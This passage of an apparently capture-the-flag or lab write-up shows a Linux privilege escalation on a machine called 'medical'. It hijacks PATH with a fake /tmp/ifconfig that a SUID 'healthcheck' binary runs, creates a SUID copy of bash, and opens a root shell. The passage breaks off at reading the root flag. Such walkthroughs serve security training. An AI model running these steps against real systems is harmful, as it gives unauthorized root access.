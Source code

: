 		
		[medical@localhost ~]$ echo $PATH
		/tmp:/sbin:/usr/sbin:/bin:/usr/bin:/usr/lib/qt4/bin
		```
	2. Create binary to spawn a root shell
		```
		[medical@localhost tmp]$ printf '#!/bin/bash\n\ncp /bin/bash /tmp/rootbash && chmod u+s 	/tmp/rootbash\n' > /tmp/ifconfig; chmod 4777 /tmp/ifconfig;
		```
	3. Check if `/tmp/ifconfig` will be called first
		```
		[medical@localhost ~]$ which ifconfig
		/tmp/ifconfig
		```
	4. Run `healthcheck`
		```
		[medical@localhost ~]$ /usr/bin/healthcheck
		```
	5. View `/tmp`
		```
		[medical@localhost ~]$ ls -la /tmp
		total 5588
		-rwsrwxrwx  1 medical  medical       67 Feb  1 15:24 ifconfig*
		-rw-------  1 root     root           0 Jul 29  2020 init.vQ5ZLd
		-rw-r--r--  1 medical  medical   193518 Feb  1 15:13 linpeas.out
		-rwxr-xr-x  1 medical  medical   762836 Feb  1 15:11 linpeas.sh*
		-rw-r--r--  1 medical  medical    16328 Feb  2  2022 raptor_udf2.so
		-rwsr-xr-x  1 root     root      864208 Feb  1 15:24 rootbash* <- Rootbash generated
		-rw-r--r--  1 apache   apache   3841560 Jul 29  2020 setup_dump.sql
		```
	6. Obtain root shell
		```
		[medical@localhost ~]$ /tmp/rootbash -p
		```
		![](images/Pasted%20image%2020220202165301.png)
3. Root Flag
	```
	rootbash-4.1# cat root.txt 